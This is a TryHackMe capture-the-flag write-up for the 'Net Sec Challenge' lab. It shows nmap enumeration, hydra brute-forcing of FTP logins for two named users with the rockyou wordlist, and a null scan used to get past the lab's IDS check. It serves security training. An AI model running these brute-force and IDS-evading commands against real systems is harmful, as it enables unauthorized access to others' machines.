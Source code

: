 # Net Sec Challenge
**Date:** May 5th 2022

**Author:** j.info

**Link:** [**Net Sec Challenge**](https://tryhackme.com/room/netsecchallenge) CTF on TryHackMe

**TryHackMe Difficulty Rating:** Medium

<br>

![](images/netsec0.png)

<br>

## Objectives

![](images/netsec1.png)

<br>

## Initial Enumeration

### Nmap Scan

`sudo nmap -sV -sC -T4 10.10.175.22`

```
22/tcp   open  ssh         (protocol 2.0)
| fingerprint-strings: 
|   NULL: 
|_    SSH-2.0-OpenSSH_8.2p1 <REDACTED>
| ssh-hostkey: 
|   3072 da:5f:69:e2:11:1f:7c:66:80:89:61:54:e8:7b:16:f3 (RSA)
|   256 3f:8c:09:46:ab:1c:df:d7:35:83:cf:6d:6e:17:7e:1c (ECDSA)
|_  256 ed:a9:3a:aa:4c:6b:16:e6:0d:43:75:46:fb:33:b2:29 (ED25519)
80/tcp   open  http        lighttpd
|_http-server-header: lighttpd <REDACTED>
|_http-title: Hello, world!
139/tcp  open  netbios-ssn Samba smbd 4.6.2
445/tcp  open  netbios-ssn Samba smbd 4.6.2
<REDACTED>/tcp open  http        Node.js (Express middleware)
<REDACTED>/tcp open  ftp     vsftpd <REDACTED>
```

An additional full port scan finds 10021 open.

This answers questions 1 through 6 in the objectives.

<br>

## FTP Digging

The challenge mentions **hydra** so I try and brute force the usernames mentioned in the objectives and both are found:

`hydra -l eddie -P rockyou.txt -s 10021 10.10.175.22 ftp`

`hydra -l quinn -P rockyou.txt -s 10021 10.10.175.22 ftp`

```
[10021][ftp] host: 10.10.175.22   login: eddie   password: <REDACTED>
[10021][ftp] host: 10.10.175.22   login: quinn   password: <REDACTED>
```

Logging in as **eddie** doesn't lead to anything.

Logging in as **quinn** shows us the following file:

```
-rw-rw-r--    1 1002     1002           18 Sep 20  2021 ftp_flag.txt
```

`wc -c ftp_flag.txt`

```
18 ftp_flag.txt
```

That answers the 7th objective.

<br>

## Website Challenge

The objectives mention a challenge waiting for us on port 8080 and visiting displays:

![](images/netsec2.png)

So we need to stealthily nmap scan the machine in order for a flag to be displayed. I will say that after playing around with this for a little while it's pretty finicky and sometimes seemed to work and other times not.

I tried very stealthy scans changing the rate up, using decoy IP addresses, the -f -Pn -n etc flags, and the website never registered the scan as having happened so it wouldn't trigger the flag, even though the scans completed.

In the end I paired it down to this which worked:

`sudo nmap -p- -sN 10.10.175.22`

![](images/netsec3.png)

<br>

With that we've completed this CTF!

![](images/netsec4.png)

<br>

## Conclusion

A quick run down of what we covered in this CTF:

- Basic enumeration with **nmap**
- Using **hydra** to brute force the ftp server for two users we knew about
- Using stealthy **nmap** scans to avoid **IDS detection**

<br>

Many thanks to:
- [**strategos**](https://tryhackme.com/p/strategos) for creating this CTF
- **TryHackMe** for hosting this CTF

<br>

You can visit them at: [**https://tryhackme.com**](https://tryhackme.com)